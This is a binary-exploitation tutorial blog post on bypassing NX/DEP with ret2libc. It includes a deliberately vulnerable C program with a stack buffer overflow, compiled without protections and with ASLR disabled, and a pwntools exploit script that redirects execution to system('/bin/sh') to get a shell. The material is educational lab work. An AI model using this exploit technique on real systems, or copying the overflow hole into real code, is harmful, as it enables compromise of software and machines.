 ```yaml
---
title: "Pwn 0x02: NX Bypass"
author: "Signore"
date: 2022-08-22
summary: "Stack is not allowing code execution? Let's bypass it"
description: ""
categories: [""]
tags: ["pwn", "buffer overflow", "ret2libc"]
series: ["Binary Exploitation Adventures"]
keywords: ["pwn", "binary", "memory", "x32", "x64", "gdb", "memory corruption", "binary exploitation", "exploit development", "ret2libc", "return2libc", "ret2system"]
ShowToc: true
cover:
  image: "images/cover-binexp-02.png"
  caption: "cover"

---
```


In this post we are going to learn an exploit mitigation technique: what it is and how to bypass it.

New to the series? check out my previous posts [here](/blog/series/binary-exploitation-adventures).

## No Execute

Last time, we put shellcode on the stack and called it to get code execution. <br>
In modern binaries, usually what happens is that the stack is not executable, means we can put something on the stack but it will only be considered a piece of data by the program and not some cpu instruction. This technique is called **NX** (No eXecute) or **DEP** (Data Execution Prevention).

Although the data on the stack is not executable, making a function call and passing required/desired arguments is still allowed. We're going to make use of this fact.

When we are writing code for a program, we don't write code for `print` and such functions. They are said to be built-ins. When we compile the program, the compiler links the program to a library (shared object) in which it would be able to find definitions of those functions during execution. <br>
Such programs are termed as Dynamically Linked which we mostly deal with because this process saves the coder a lot of time and effort, while the opposite are Statically Linked programs which we won't talk about for now.

Most of the C programs - whether it's x86 or x64 - rely on **libc**, the default C library.
<details><summary>We can see the shared objects (libraries) being used by a program, with the <code>ldd</code> command</summary>

{{< terminal title="Terminal" >}}
![](img00.png)
{{< /terminal >}}
</details><br>

Since during the program execution, the program is making use of library functions, so the library (libc) is mapped in memory. We can abuse this by finding memory addresses and making calls to other functions present in the library as per our need. <br>
`print`, `write`, `system`, `exit`, etc are some of the functions present in the libc out of which, for now, we are most interested in `system`. <br>
This technique is called **return2libc**, ret2libc or ret2system.

### Setup

Using the code from previous exercise:
{{< terminal title="vulnerable.c" >}}
```c
#include <stdio.h>
#include <unistd.h>

int overflow(){
    char buffer[500];
    int userinput;
    userinput = read(0, buffer, 700);
    printf("\nUser provided %d bytes. Buffer content is: %s\n", userinput, buffer);
    return 0; 
}

int main(int argc, char *argv[]){
    overflow();
    return 0;
}
```
{{< /terminal >}}

Compile with the command:
{{< terminal title="Terminal" >}}
```shell
gcc -m32 -fno-stack-protector vulnerable.c -o vulnerable
```
{{< /terminal >}}

Notice that we are not using the `-z execstack` flag anymore, which makes the stack executable.

Our program has following protections:
{{< terminal title="Terminal" >}}
![](img01.png)
{{< /terminal >}}

Before proceeding any further, remember to disable ASLR.

## Exploitation

We find the offset of EIP to be 516. You know how, right?

We want to execute `system("/bin/sh")` for which we are going to overwrite the EIP with the address of the `system` function, and then we'll give the return address which can be anything (e.g JUNK) but we will keep it to be the address of the `exit` function so that our program terminates nicely. Lastly, we will give the function arguments which, in present case, would be the address of the `/bin/sh` string. <br>
Remember stack alignment? revise [here](/blog/posts/pwn-0x01-buffer-overflow/#the-stack)

<details><summary>With the <code>vmmap</code> command in gdb, we can confirm that the libc/certain sections of libc are loaded into the program</summary>

{{< terminal title="Terminal" >}}
![](img02.png)
{{< /terminal >}}
</details><br>

Let's get our required memory addresses with gdb:
{{< terminal title="Terminal" >}}
![](img03.png)
{{< /terminal >}}

Now that we have all we needed, let's construct our exploit:
{{< terminal title="exploit.py" >}}
```py
from pwn import *

exe = "./vulnerable"
elf = context.binary = ELF(exe,checksec=False)

system_addr = 0xf7dff040
exit_addr = 0xf7df1990
binsh_addr = 0xf7f46338

padding = "A"*516

payload = flat(padding, system_addr, exit_addr, binsh_addr)

#write("payload",payload)
io = process(exe)
io.sendline(payload)
io.interactive()
```
{{< /terminal >}}

Let's run the exploit:
{{< terminal title="Terminal" >}}
![](img04.png)
{{< /terminal >}}
And.. Yea! we got our shell :fire:
